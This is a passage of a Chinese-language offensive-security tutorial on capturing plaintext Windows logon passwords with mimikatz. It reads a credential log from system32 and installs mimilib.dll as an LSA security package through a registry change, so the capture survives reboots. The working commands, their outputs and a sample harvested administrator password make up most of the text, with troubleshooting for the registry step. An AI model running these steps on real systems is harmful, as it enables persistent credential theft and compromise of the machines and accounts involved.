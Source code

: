 注销当前用户重新登录，即可获取明文密码，密码存储在日志文件C:\Windows\system32\mimilsa.log中。

```dos
type C:\Windows\system32\mimilsa.log
```

```test
C:\Users\Administrator>type C:\Windows\system32\mimilsa.log
[00000000:00063a51] DC\Administrator    admin.098
```

### 方法二

将mimikatz中的mimilib.dll 放到系统的C:\Windows\system32目录下（DLL的位数需要与windows位数相同），并将mimilib.dll添加到注册表中，使用此方法即使系统重启，也不会影响到持久化的效果。

```dos
copy mimilib.dll %systemroot%\system32
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

```test-dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>copy mimilib.dll %systemroot%\
system32
已复制         1 个文件。

C:\Users\Administrator\Desktop\mimikatz_trunk\x64>reg query hklm\system\currentc
ontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0ts
pkg\0pku2u
```

注意：最后一步修改注册表需要在powershell命令行下操作，cmd下可能会报错。

```dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
错误: 无效语法。
键入 "REG ADD /?" 了解用法信息。
```

```powershell
PS C:\Users\Administrator> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv
1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
值 Security Packages 已存在，要覆盖吗(Yes/No)? y
操作成功完成。
```

查看注册表 hklm\system\currentcontrolset\control\lsa\Security Packages项的值。

```dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>reg query hklm\system\currentc
ontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0ts
pkg\0pku2u\0mimilib
```
